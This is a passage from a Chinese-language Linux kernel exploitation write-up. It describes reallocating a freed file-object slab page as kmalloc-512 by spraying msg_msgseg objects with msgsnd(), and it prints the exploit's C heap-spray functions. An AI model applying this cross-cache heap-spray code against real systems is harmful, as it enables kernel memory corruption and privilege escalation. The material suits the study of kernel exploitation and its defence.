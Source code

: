 [![](assets/1701612436-f8f8d61434b1bdcf8d4be5c8bd9e63c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154616-884166f4-13f5-1.png)

另一方面，如上所述，文件对象（大小为384）和kmalloc-512对象（大小在256到512之间）位于阶数为1的分配块上，这意味着如果我们释放了**filp**页面，则在尝试重新分配时直接针对阶数为1的列表可能更容易，如果我们操纵伙伴分配算法以拆分更高订单块，则可以避开此限制（请参见附录），但是我们选择了**kmalloc-512**

## 重新分配为msg\_msgseg，

现在我们进入了最后阶段，为了将页面重新分配给**kmalloc-512**，我们实际上将尝试使用`msg_msgseg`的内容覆盖文件，我们可以使用通常称为堆喷射（heap spraying）的方法来完成这个过程（也称为对`msgsnd()`进行垃圾邮件轰炸），还有其他喷射堆的方法 - 即使用密钥环、套接字消息或扩展属性，但**System V IPC API**是一种经过验证且易于使用的技术，  
在我们第一次查看攻击代码时，我们到了这里：

```plain
static inline err_t reallocate_filp_page(struct manager *mgr)
{
    IF_ERR_RET(spray_msg(mgr->msq_ids, TOTAL_MSGS, mgr->spray, MSG_SIZE))
    memset((char *)mgr->spray, 0x00, MSG_SIZE);
    return SUCC;
}

err_t spray_msg(uint64_t *store, uint32_t amount, char *data, uint64_t size)
{
    int32_t ret = 0;
    struct msgb* msg = (struct msgb*)data;

    for (uint32_t i = 0; i < amount; i++) {
        msg->mtype = i + 1;
        ret = msgsnd(store[i], msg, size, 0);
        IF_ERR(ret) {
            perror("spray_msg:msgsnd");
            return ERR;
        }
    }

    return SUCC;
}
```
